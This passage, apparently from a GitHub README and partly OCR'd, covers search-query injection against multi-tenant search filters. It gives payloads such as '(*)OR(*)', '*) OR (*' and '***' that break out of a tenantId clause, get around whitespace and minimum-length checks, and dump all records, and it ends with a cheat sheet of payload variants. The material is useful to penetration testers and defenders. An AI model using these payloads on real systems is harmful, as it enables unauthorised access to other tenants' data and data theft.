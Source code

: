 Query: `(*)OR(*)`
```
attributes.tenantId:"*" AND (*)OR(*)*
```

### Whitespace is forbidden (replaced to wildcard)
In some implementations, they might replace whitespace to wildcards, so the input query can match the same field but different parts. In this case, we simply use whitespace instead of wildcards:

Query: `( )OR( )`
```
attributes.tenantId:"*" AND (*)OR(*)*
```

### Parenthesis: escape
Some implementations might use parenthesis to group multiple phrases into a single clause, so OR is scoped to that match only, and not the whole query.

Query: `abc def`
```
attributes.tenantId:"*" AND (abc def)
```

But this limitation can be easily overcome, like quotes:

Query: `*) OR (*`
```
attributes.tenantId:"*" AND (*) OR (*)
```

### Minimum required search text length
Some systems restrict search text to be at least 3 characters long, so you can't dump all data at once:

Query: `abc` (minimum required 3 characters long)

```
abc*
```

But this limitation can be easily overcome by providing the wildcard character repeatedly.

Query: `***` (minimum required 3 characters long)

```
****
```

## Cheat sheet
Variations of the following building blocks:
 - `OR` or `Or` or `||`
 - ` ` or `*`
 - `(*)` or `*)OR(*` or `*)OR(*)//`

For example:
 - `(*)OR(*)`
 - `(*)Or(*)`
 - `(*)||(*)`
 - `( )||( )`
 - `*)||(*`
